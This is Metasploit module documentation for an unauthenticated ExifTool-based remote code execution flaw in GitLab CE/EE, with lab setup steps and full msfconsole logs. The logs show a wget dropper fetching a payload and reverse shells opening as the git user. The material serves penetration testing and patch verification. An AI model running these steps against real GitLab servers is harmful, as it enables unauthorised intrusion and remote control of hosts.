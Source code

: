 ## Vulnerable Application

### Description

This module exploits an unauthenticated file upload and command injection vulnerability in GitLab Community Edition (CE) and
Enterprise Edition (EE). The patched versions are 13.10.3, 13.9.6, and 13.8.8.

Exploitation will result in command execution as the git user.

### Installation

#### GitLab 13.10.2 on Ubuntu 20.04.2 x64

* Download [GitLab 13.10.2](https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/focal/gitlab-ce_13.10.2-ce.0_amd64.deb)
* Install openssh-server (`sudo apt install openssh-server`)
* Install GitLab (`sudo dpkg -i gitlab-ce_13.10.2-ce.0_amd64.db`)
* Modify the `external_url` in `/etc/gitlab/gitlab.rb` to something like `external_url http://localhost`
* Run `sudo gitlab-ctl reconfigure`
* Done!

## Verification Steps

* Follow the above instructions to install GitLab 13.10.2
* Do: `use exploit/multi/http/gitlab_exif_rce`
* Do: `set RHOST <ip>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `set LPORT <port>`
* Do: `exploit`
* You should get a Meterpreter session.

## Targets

### 0

This targets GitLab with the `reverse_openssl` payload and returns a reverse shell.

### 1

This downloads code to GitLab using `wget` and returns a meterpreter session.

## Options

### TARGETURI

Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 13.10.1 on Ubuntu 20.04.2 x64. Get Meterpreter session.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading c6hn3KFIMqv.jpg to /D3iMLq
[+] 10.0.0.7:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > options

Module options (exploit/multi/http/gitlab_exif_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.0.0.7         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-
                                       Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the l
                                       ocal machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/agqzWrd49OBxPkC
[*] Local IP: http://10.0.0.9:8080/agqzWrd49OBxPkC
[*] Uploading S6uji8z.jpg to /6eKwYEoQ2O
[*] Client 10.0.0.7 (Wget/1.17.1 (linux-gnu)) requested /agqzWrd49OBxPkC
[*] Sending payload to 10.0.0.7 (Wget/1.17.1 (linux-gnu))
[*] Meterpreter session 1 opened (10.0.0.9:4444 -> 10.0.0.7:53056 ) at 2021-11-02 01:27:22 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: git
meterpreter > shell
Process 6936 created.
Channel 1 created.
whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 13.10.2 on Ubuntu 20.04.2 x64. Get reverse shell.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.3
RHOST => 10.0.0.3
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading bSjUnQsE.jpg to /Da8eKs2
[+] 10.0.0.3:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix Command
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set target 0
target => 0
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse double SSL handler on 10.0.0.9:4444 
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Uploading 1SynV6Z.jpg to /9v3LPsOOBuH
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo tZscWcue53S3jgeY;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "tZscWcue53S3jgeY\n"
[*] Matching...
[*] B is input...
[+] Exploit successfully executed.
[*] Command shell session 1 opened (10.0.0.9:4444 -> 10.0.0.3:44304 ) at 2021-11-02 01:35:07 -0700

whoami
git
id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-workhorse
```

### GitLab 14.4.1 on Ubuntu 20.04.2 x64. Unable to exploit.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading IG6XQAk1ITK.jpg to /jL4v4tk
[*] 10.0.0.6:80 - The target is not exploitable. The error response indicates ExifTool was not run.
msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/4yaJ5UgZuicSKho
[*] Local IP: http://10.0.0.9:8080/4yaJ5UgZuicSKho
[*] Uploading 0HOfSW4x.jpg to /U9lBc32XRIS
[-] Exploit aborted due to failure: unexpected-reply: Target replied with an unexpected response
[*] Server stopped.
[*] Exploit completed, but no session was created.
```
